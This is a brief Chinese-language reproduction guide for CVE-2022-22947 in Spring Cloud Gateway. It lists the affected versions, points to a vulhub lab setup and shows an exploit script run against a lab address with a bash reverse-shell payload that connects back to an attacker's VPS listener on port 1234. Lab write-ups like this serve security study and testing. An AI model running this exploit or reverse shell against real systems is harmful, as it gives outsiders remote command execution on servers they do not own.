 # 影响版本
Spring Cloud Gateway  
3.1.0  
3.0.0 to 3.0.6  
Older, unsupported versions are also affected  

# 攻击环境
复现环境：https://github.com/vulhub/vulhub/tree/master/spring/CVE-2022-22947  
复现版本：Spring Cloud Gateway 3.1.0  

# 攻击过程
环境搭建好以后，vps开启监听  
![image](./image/01.png)  
执行命令
```
python3.exe .\cve-2022-22947.py http://192.168.16.142:8080/ "bash -c 'exec bash -i &>/dev/tcp/xx.xx.xx.xx/1234 <&1'"
```
vps上成功收到反连  
![image](./image/02.png)  

# 需要注意
一开始可以执行命令，过几分钟后会出现卡死状况  